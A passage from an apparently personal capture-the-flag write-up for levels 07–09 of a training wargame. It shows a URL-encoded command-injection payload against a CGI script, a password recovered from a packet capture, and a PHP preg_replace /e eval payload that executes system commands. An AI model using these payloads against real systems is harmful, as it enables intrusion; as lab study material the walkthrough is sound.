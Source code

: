 pwned.


Level 07

Finally, into the web. `less /home/flag07/thttpd.conf` shows me this is running on port 7007.

This is cake. I have RCE through the Host GET variable, all I need to do is escape the shit. Opened the iceweasel console and then used `encodeURIComponent` to get a properly formatted escape sequence.

`encodeURIComponent('; getflag #');` gives me `%3B%20getflag%20%23`.

`10.0.29.5:7007/index.cgi?Host=%3B%20getflag%20%23` and... `You have successfully executed getflag on a target account.`


Level 08

I copied the world-readable .pcap file into `~`, then SCPed it to Kali for my Wireshark instance. Bringing it into Wireshark, I opened it and just went through packet by packet first, seeing it looked like plaintext login. Using Wireshark's "Follow TCP Stream", I got it to come together, and ended up with

```
Password: backdoor...00Rm8.ate
```

... If the escaped ASCII `.` is backspace, with the password `backd00Rmate`, `su flag08` opens right up. `getflag`.


Level 09

Looking at the PHP code there is an `e` extension to the regex, which triggers [PREG_REPLACE_EVAL](http://www.php.net/manual/en/reference.pcre.pattern.modifiers.php). Hey, arbitrary code execution, kinda! And the PHP docs tell you how this works and why it's bad.

To exploit, I created a text file `~/corpus` with the bypass in the regex to it, after getting it to do what it's supposed to. Must be the engineer in me that tries to figure out "ok, so what is this *supposed* to do" before "how can i fuck this up hard?"

```
[email {${eval(<CODE HERE>)}}]
```

But the problem is that I have to compete with `addslashes` in that eval(), because PREG_REPLACE_EVAL tries to be nice and addslash anything that's a string literal. I couldn't figure out why I had `$argv[2]` and `$use_me`, until, well, I made like Alice at the rabbit hole and understood what `$use_me` was for. So I finished my exploit:


```
[email {${eval($use_me)}}]
```

... and now I can input my PHP code as `$argv[2]` right on the command line. Using `bash`:

`./flag09 ~/corpus "return system('/bin/getflag')"`

and pwned.


